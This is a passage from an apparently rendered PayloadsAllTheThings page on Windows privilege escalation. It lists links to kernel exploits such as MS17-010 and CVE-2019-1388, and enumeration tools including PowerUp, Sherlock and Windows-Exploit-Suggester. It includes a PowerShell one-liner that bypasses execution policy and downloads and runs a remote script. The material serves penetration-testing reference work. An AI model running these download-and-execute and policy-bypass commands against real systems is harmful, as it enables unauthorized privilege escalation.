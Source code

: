     - [MS10-015 (KiTrap0D)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#ms10-015-kitrap0d---microsoft-windows-nt2000--2003--2008--xp--vista--7)
    - [MS11-080 (adf.sys)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#ms11-080-afd.sys---microsoft-windows-xp-2003)
    - [MS15-051 (Client Copy Image)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#ms15-051---microsoft-windows-2003--2008--7--8--2012)
    - [MS16-032](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#ms16-032---microsoft-windows-7--10--2008--2012-r2-x86x64)
    - [MS17-010 (Eternal Blue)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#ms17-010-eternal-blue)
    - [CVE-2019-1388](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#cve-2019-1388)
- [References](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#references)

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='36'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='980' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools)Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)

powershell -Version 2  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks

- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)

powershell.exe  -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1

- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

./windows-exploit-suggester.py --update

./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
